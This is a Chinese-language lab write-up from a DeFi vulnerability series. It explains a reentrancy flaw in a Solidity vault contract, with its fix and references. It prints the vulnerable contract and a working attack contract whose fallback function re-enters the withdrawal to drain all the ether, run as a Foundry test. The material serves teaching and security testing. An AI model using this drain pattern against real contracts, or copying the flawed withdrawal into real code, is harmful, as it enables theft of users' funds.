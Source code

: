 # 可重入性
[Reentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Reentrancy.sol)  

**名称：** 可重入性漏洞  

**描述：**  
在EtherStore智能合约设计中有一个可重入性漏洞的缺陷，这会允许攻击者利用重入性漏洞从EtherStore合约中提取超过其应提取的资金。  
该漏洞源于EtherStore合约中的withdrawFunds函数，该函数在更新余额之前，将以太币转账到攻击者的地址。  
这使得攻击者的合约能够在余额更新之前重新调用withdrawFunds函数，从而导致多次提取资金并有可能耗尽EtherStore合约中的所有以太币。  

**场景：**  
EtherStore合约是一个简单的金库，它可以管理每个人的以太币。  
但是它存在漏洞，你能窃取所有的以太币吗？  


**解决方法：**  
遵守“检查-效果-交互”的原则和使用OpenZepplin的重入保护。  


**参考：**  
https://slowmist.medium.com/introduction-to-smart-contract-vulnerabilities-reentrancy-attack-2893ec8390a  

https://consensys.github.io/smart-contract-best-practices/attacks/reentrancy/  


**EtherStore合约：**  
```
contract EtherStore {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds(uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        (bool send, ) = msg.sender.call{value: _weiToWithdraw}("");
        require(send, "send failed");

        // 取款后，检查是否还有有足够的余额，以避免下溢情况。
        //check if after send still enough to avoid underflow
        if (balances[msg.sender] >= _weiToWithdraw) {
            balances[msg.sender] -= _weiToWithdraw;
        }
    }
}
```

**如何测试：**  

forge test --contracts src/test/Reentrancy.sol-vvvv  
```
// 用于测试EtherStore合约是否存在重入攻击漏洞的函数 
function testReentrancy() public {
    // 执行攻击合约的Attack函数
    attack.Attack();
}

// 攻击EtherStore合约的合约
contract EtherStoreAttack is Test {
    // 待攻击的EtherStore合约实例
    EtherStore store;

    // 初始化EtherStore合约
    constructor(address _store) {
        store = EtherStore(_store);
    }

    // 执行攻击的函数
    function Attack() public {
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);

        // 向EtherStore合约存入1个以太币
        store.deposit{value: 1 ether}();

        // 记录EtherStore合约新余额
        console.log(
            "Deposited 1 Ether, EtherStore balance",
            address(store).balance
        );
        //从EtherStore合约取走1个以太币, 这就是可以攻击的地方
        store.withdrawFunds(1 ether); 

        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        //记录EtherStore合约取款后的余额
        console.log("EtherStore balance", address(store).balance);
    }

    // 利用可重入漏洞的回退函数
    receive() external payable {
        // 记录攻击合约的余额
        console.log("Attack contract balance", address(this).balance);
        // 记录EtherStore合约的余额
        console.log("EtherStore balance", address(store).balance);
        // 判断EtherStore合约余额是否至少有1个以太币
        if (address(store).balance >= 1 ether) {
            // 取走1个以太币，这就是在回退函数中利用到的漏洞
            store.withdrawFunds(1 ether); 
        }
    }
}
```
**红色框：**  攻击成功，取完了EtherStore合约中的以太币。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6c7fb809-e4be-407c-a133-64416461a86e%2FUntitled.png?table=block&id=cc44df8e-6a18-44b2-b9e9-892b3b29be79&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

